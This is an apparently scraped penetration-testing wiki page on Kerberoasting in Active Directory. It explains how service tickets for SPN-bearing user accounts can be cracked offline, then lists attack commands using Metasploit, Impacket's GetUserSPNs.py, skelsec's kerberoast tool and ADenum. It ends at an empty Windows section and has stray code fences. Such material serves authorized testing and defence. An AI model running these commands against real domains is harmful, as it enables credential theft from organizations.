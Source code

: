 # Kerberoast


## Kerberoast

Kerberoasting focuses on the acquisition of TGS tickets, specifically those related to services operating under user accounts in Active Directory (AD), excluding computer accounts. The encryption of these tickets utilizes keys that originate from user passwords, allowing for offline credential cracking. The use of a user account as a service is indicated by a non-empty ServicePrincipalName (SPN) property.

Any authenticated domain user can request TGS tickets, so no special privileges are needed.

### Key Points

- Targets TGS tickets for services that run under user accounts (i.e., accounts with SPN set; not computer accounts).
- Tickets are encrypted with a key derived from the service account’s password and can be cracked offline.
- No elevated privileges required; any authenticated account can request TGS tickets.

> [!WARNING]
> Most public tools prefer requesting RC4-HMAC (etype 23) service tickets because they’re faster to crack than AES. RC4 TGS hashes start with `$krb5tgs$23$*`, AES128 with `$krb5tgs$17$*`, and AES256 with `$krb5tgs$18$*`. However, many environments are moving to AES-only. Do not assume only RC4 is relevant.
> Also, avoid “spray-and-pray” roasting. Rubeus’ default kerberoast can query and request tickets for all SPNs and is noisy. Enumerate and target interesting principals first.

### Attack

#### Linux

```bash
# Metasploit Framework
msf> use auxiliary/gather/get_user_spns

# Impacket — request and save roastable hashes (prompts for password)
GetUserSPNs.py -request -dc-ip <DC_IP> <DOMAIN>/<USER> -outputfile hashes.kerberoast
# With NT hash
GetUserSPNs.py -request -dc-ip <DC_IP> -hashes <LMHASH>:<NTHASH> <DOMAIN>/<USER> -outputfile hashes.kerberoast
# Target a specific user’s SPNs only (reduce noise)
GetUserSPNs.py -request-user <samAccountName> -dc-ip <DC_IP> <DOMAIN>/<USER>

# kerberoast by @skelsec (enumerate and roast)
# 1) Enumerate kerberoastable users via LDAP
kerberoast ldap spn 'ldap+ntlm-password://<DOMAIN>\\<USER>:<PASS>@<DC_IP>' -o kerberoastable
# 2) Request TGS for selected SPNs and dump
kerberoast spnroast 'kerberos+password://<DOMAIN>\\<USER>:<PASS>@<DC_IP>' -t kerberoastable_spn_users.txt -o kerberoast.hashes
```
```
Multi-feature tools including kerberoast checks:

```bash
# ADenum: https://github.com/SecuProject/ADenum
adenum -d <DOMAIN> -ip <DC_IP> -u <USER> -p <PASS> -c
```
```
#### Windows

- Enumerate kerberoastable users

```powershell
```